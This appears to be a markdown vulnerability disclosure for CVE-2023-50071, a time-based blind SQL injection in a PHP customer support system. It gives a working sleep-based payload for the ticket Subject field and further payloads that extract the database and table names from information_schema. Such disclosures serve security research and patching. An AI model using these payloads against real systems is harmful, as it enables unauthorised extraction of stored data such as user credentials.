


## CVE-2023-50071 - Multiple SQL Injection 

Ref: https://www.exploit-db.com/exploits/51862

#### Exploit Author: Geraldo Alcantara

### Vendor Homepage:
https://www.sourcecodester.com/php/14587/customer-support-system-using-phpmysqli-source-code.html

### Software Link:
https://www.sourcecodester.com/download-code?nid=14587&title=Customer+Support+System+using+PHP%2FMySQLi+with+Source+Code

### Setup:
- Downloaded the software from the provided link.
- Install XAMPP and start the MySQL and Apache servers.
- Create new database, name it `css_db`. Imported the database file provided in the software. (`database/css_db.sql`)
    
- Opened the software in a web browser and logged in as an admin user.
  - user: `admin`
  - pass: `admin123`
  - type: `admin`

### Exploit PoC:
- Login as an admin user.
- Navigate to `Ticket` section.
- Click on `Add New` button.
- Enter the following values:
  - Subject: `test'+(select*from(select(sleep(5)))a)+'`
  - Customer: any value
  - Department: any value
  - Description: any value
- Click on `Save` button.

You will see that the page will take 5 seconds to load, when other requests are being processed normally. This is due to the SQL injection vulnerability.

### Impact:

Further SQL injection attacks can be done is:
- Data Extraction via Timing (Blind SQL Injection):
  - Check the number of tables in the css_db database.
  - Extract each table name by iterating over their characters.
  - For each table, check the number of columns.
  - Extract the names of each column in the table.
  - Extract the data from the columns, such as usernames and passwords.

Example:
- `' OR (IF(SUBSTRING((SELECT database()),1,1)='m', SLEEP(5), 0))-- `
  - This will check if the first character of the database name is 'm', and if it is, it will sleep for 5 seconds. This will allow the attacker to extract the database name, which can be used for further attacks.

- Retrieving Table Names: Once the databases are identified, the attacker can use a similar technique to extract table names from information_schema.tables.
  - `' OR IF((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='css_db')=5, SLEEP(5), 0)-- `  ~ This query will help determine how many tables exist in the css_db database.
  - Extract table names character by character: `' OR IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='css_db' LIMIT 0,1),1,1)='a', SLEEP(5), 0)-- `